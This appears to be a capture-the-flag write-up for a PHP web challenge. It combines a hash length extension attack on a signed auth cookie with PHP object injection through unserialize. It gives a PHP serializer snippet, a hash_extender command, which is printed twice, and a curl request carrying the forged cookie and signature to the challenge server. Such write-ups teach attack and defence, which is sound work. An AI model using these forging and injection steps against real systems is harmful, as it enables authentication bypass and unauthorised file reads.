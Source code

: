 This is some difficult

First, the auth code is vulnerable to a length extension attack. Also, passing user input to unserialize is dangerous.

Begin by creation `test.php` with the following contents:

```php
<?php
include("config.php");
include("classes.php");
$f = new File("flag.txt");
echo serialize($f);
```

Take that, and reverse it, and use length extension to append that.

Next, use the guide here: [https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack?utm_source=rss&utm_medium=rss&utm_campaign=plaidctf-web-150-mtpox-hash-extension-attack](here), to exploit the length extension. 

./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html

curl -b "auth=O%3a4%3a%22File%22%3a1%3a%7bs%3a8%3a%22filename%22%3bs%3a8%3a%22flag%2etxt%22%3b%7d+%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; sig=76eefb902017f810c3c1afd05952f507017b9c58a1b6406422dbb31df0188e9b" http://web2015.icec.tf/giga/files.php

./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html